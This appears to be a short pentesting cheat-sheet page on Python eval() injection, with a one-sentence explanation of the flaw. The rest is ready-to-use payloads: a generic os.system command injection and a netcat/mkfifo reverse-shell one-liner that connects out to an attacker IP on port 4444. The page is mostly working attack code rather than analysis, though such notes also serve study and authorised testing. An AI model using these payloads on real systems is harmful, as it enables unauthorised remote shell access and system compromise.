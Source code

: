 ```yaml
---
icon: brackets-round
---
```


# Eval Injection

{% hint style="info" %}
### <mark style="color:green;">`Python`</mark>&#x20;

* <mark style="color:purple;">The vulnerability arises from unsanitized user input being passed to the</mark> <mark style="color:orange;">**`eval()`**</mark> <mark style="color:purple;">function.</mark>

```python
__import__('os').system('your_command_here')
```

{% code title="Reverse Shell" overflow="wrap" %}
```python
__import__('os').system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.4 4444 >/tmp/f')
```
{% endcode %}
{% endhint %}

